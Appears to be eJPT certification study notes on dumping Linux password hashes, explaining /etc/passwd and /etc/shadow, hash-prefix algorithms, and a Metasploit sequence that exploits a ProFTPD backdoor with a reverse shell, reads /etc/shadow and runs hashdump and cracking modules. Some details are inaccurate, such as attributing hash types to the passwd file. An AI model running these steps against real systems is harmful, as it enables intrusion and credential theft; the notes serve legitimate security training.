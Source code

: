 # 22 Linux Credential Dumping

# Dumping Linux Password Hashes

- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
- All of the information for all accounts on Linux is store in the passwd file located in /etc/passwd
- We cannot view the password for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.
- All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

**Linux Password Hashes**

- The passwd file given us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

| **Value** | **Hashing Algorithm** |
| --------- | --------------------- |
| $1        | MD5                   |
| $2        | Blowfish              |
| $5        | SHA-256               |
| $6        | SHA-512               |

```shell
searchsploit <protocol-version>

msf6: exploit(unix/ftp/proftpd_133c_backdoor)
set PAYLOAD payload/cmd/unix/reverse
/bin/bash -i
control + Z
msf6: sessions
msf6: sessions -u 1 (upgrade to meterpreter)
msf6: sessions 2
meterpreter: sysinfo
meterpreter: cat /etc/shadow

control + Z
msf6: post(linux/gather/hashdump)
	set SESSION 2
	run

msf6: auxiliary(analyze/crack_linux)
	set SHAT512 true
	run
```

#eJPT #cybersecurity 
